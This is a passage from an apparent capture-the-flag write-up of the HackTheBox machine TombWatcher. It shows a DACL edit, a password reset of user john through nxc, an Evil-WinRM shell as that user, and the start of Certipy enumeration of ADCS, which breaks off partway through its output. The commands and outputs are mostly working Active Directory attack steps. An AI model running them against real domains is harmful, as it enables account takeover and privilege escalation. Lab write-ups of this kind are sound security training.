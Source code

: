 **Result:**
```
[*] DACL backed up to dacledit-20251001-174816.bak
[*] DACL modified successfully!
```

Now I could reset john's password:

```bash
nxc smb 10.10.11.72 -u 'sam' -p NewPassword -M change-password -o USER=john NEWPASS=NewPassword
```

**Result:**
```bash
SMB         10.10.11.72     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:tombwatcher.htb) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.10.11.72     445    DC01             [+] tombwatcher.htb\sam:NewPassword 
CHANGE-P... 10.10.11.72     445    DC01             [+] Successfully changed password for john
```

### Step 6: Initial Shell as john

With john's credentials compromised, I connected via Evil-WinRM:

```bash
evil-winrm -i 10.10.11.72 -u john -p NewPassword
```

✅ **User flag obtained!**

At this point, I noticed john has **GenericAll** privileges on the ADCS OU, which would be crucial for the next phase.

---

## Privilege Escalation: Path to Domain Admin

The user john has GenericAll privileges over ADCS@TOMBWATCHER.HTB. This could be an interesting place to investigate.

![alt text](/f0dh1l/images/htb_tombwatcher/image-2.png)

### Investigating the ADCS

We can investigate the ADCS using Certipy: 

```bash
certipy-ad find -u 'john@tombwatcher.htb' -p 'NewPassword' -dc-ip 10.10.11.72 --vulnerable -stdout

Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Finding issuance policies
[*] Found 13 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'tombwatcher-CA-1' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'tombwatcher-CA-1'
[*] Checking web enrollment for CA 'tombwatcher-CA-1' @ 'DC01.tombwatcher.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[!] Failed to lookup object with SID 'S-1-5-21-1392491010-1358638721-2126982587-1111'
[*] Enumeration output:
Certificate Authorities
   17
```
